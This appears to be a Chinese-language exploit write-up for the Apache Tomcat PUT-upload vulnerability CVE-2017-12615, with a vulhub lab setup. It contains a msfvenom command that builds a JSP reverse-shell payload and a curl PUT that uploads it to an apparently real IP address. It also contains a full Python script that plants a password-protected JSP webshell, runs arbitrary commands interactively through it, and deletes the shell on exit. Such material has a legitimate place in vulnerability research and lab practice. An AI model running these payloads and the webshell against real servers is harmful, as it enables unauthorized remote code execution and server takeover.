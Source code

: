 # 

# Apache Tomcat 远程代码执行漏洞 CVE-2017-12615

## 漏洞描述

2017年9月19日，Apache Tomcat官方确认并修复了两个高危漏洞，其中就有远程代码执行漏洞(CVE-2017-12615)。当 启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。

## 漏洞影响

```
Apache Tomcat 7.0.0 - 7.0.81
```

## 环境搭建

```plain
https://github.com/vulhub/vulhub.git
cd vulhub/tomcat/CVE-2017-12615
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:8080/ 正常即可



![image-20220209121152909](./images/202202091211024.png)



## 漏洞复现

漏洞产生的主要原因来自于**conf/web.xml**文件配置错误,readonly开启了false,导致可以使用**PUT/DELETE**请求方法操作文件

![image-20220209121208347](./images/202202091212466.png)

**msf**生成一个**jsp**木马

```plain
msfvenom -p java/jsp_shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=9999 -f raw > shell.jsp
```

利用PUT方法上传木马

```plain
curl -v -X PUT --data-binary @shell.jsp "http://81.68.139.186:8080/shell.jsp/"
```

- 注意 http://xxx.xxx.xxx.xxx:8080/shell.jsp/中的最后一个"/"字符很重要

发现成功上传木马文件

![image-20220209121223275](./images/202202091212346.png)

访问文件即可反弹一个shell

![image-20220209121238642](./images/202202091212721.png)

也可以用**DELETE**请求方法删除文件

![image-20220209121258159](./images/202202091212228.png)

## 漏洞POC

- 代码只用于检测漏洞，反弹shell参照上方

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import hashlib
import sys
import requests
import random
import re

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Tomcat 7.0.0 - 7.0.81                             \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2017-12615.py                                 \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8080                            \033[0m')
    print('+  \033[36mCmd    >>> shell                                                  \033[0m')
    print('+  \033[36mCmd    >>> exit(退出交互并删除webshell)                              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    md5_filename = str(random.randint(1,999)).encode("utf-8")
    file_name = hashlib.md5(md5_filename).hexdigest()
    vuln_put_url = target_url + "/" + file_name + ".jsp/"

    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    data = """
    <%
    if("peiqi".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
        int a = -1;          
        byte[] b = new byte[1024];                 
        while((a=in.read(b))!=-1){
            out.println(new String(b));          
        }
    } 
    %>
    """
    try:
        response = requests.request("PUT", url=vuln_put_url, data=data, headers=headers, timeout=30)
        if response.status_code == 201 or response.status_code == 201:
            print("\033[32m[o] 含有CVE-2017-12615漏洞，成功上传shell，文件名为{}.jsp,响应为{}\033[0m".format(file_name,response.status_code))
            return file_name
        else:
            print("\033[31m[x] 漏洞利用失败,PUT方法关闭 \033[0m")
            sys.exit(0)
    except:
        print("\033[31m[x] 漏洞利用失败,PUT方法关闭 \033[0m")
        sys.exit(0)

def POC_2(target_url, file_name, cmd):
    vuln_cmd_url = target_url + "/" + file_name + ".jsp?" + "pwd=peiqi&cmd=" + cmd
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=vuln_cmd_url, headers=headers,timeout=30)
        if response.status_code == 200:
            print("\033[32m[o] 成功执行命令,响应为:\n\033[0m",response.text)
        else:
            print("\033[31m[x] 漏洞利用失败,命令无法执行 \033[0m")
            sys.exit(0)
    except:
            print("\033[31m[x] 漏洞利用失败,命令无法执行 \033[0m")
            sys.exit(0)

def POC_3(target_url, file_name):
    vuln_delect_url = target_url + "/" + file_name + ".jsp/"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.request("DELETE", url=vuln_delect_url, headers=headers, timeout=30)
        if response.status_code == 200 or 201:
            print("\033[32m[o] 成功删除shell，文件名为{}.jsp,响应为{}\033[0m".format(file_name,response.status_code))
            return file_name
        else:
            print("\033[31m[x] 删除失败 \033[0m")
            sys.exit(0)
    except:
        print("\033[31m[x] 删除失败 \033[0m")
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_name = POC_1(target_url)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            POC_3(target_url, file_name)
            sys.exit(0)
        else:
            POC_2(target_url, file_name, cmd)
```

![image-20220209121321777](./images/202202091213849.png)
